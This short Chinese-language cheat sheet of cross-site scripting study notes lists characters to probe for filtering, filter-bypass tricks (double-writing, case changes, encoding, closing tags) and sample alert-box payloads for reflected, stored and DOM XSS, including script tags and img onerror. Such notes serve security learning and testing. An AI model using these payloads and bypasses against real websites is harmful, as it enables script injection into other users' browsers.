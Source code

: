 # 测试过滤词



```
"<>'on/`() script img href src java
```

等等...

# 绕过技巧

```
双写
大小写
编码方式
看view：source   ，闭合标签
```

# 反射型xss

```
<script>alert(1)</script>
```



```
input等标签
onfocus=javascript:alert(1)' 
```



# 存储型xss

存储在文件里，其他用户访问该界面，会执行特定js代码



# DOM型xss

需要技巧来闭合标签 

```
"> <a href=javascript:alert()> "<
```

```
当src错误时，就会报错
<img src=111 onerror=alert('xss')>
```



# htmlspecialchars

```
绕过尝试单双引号都试试
如尖括号被过滤 考虑标签内属性onfocus等
```

#  
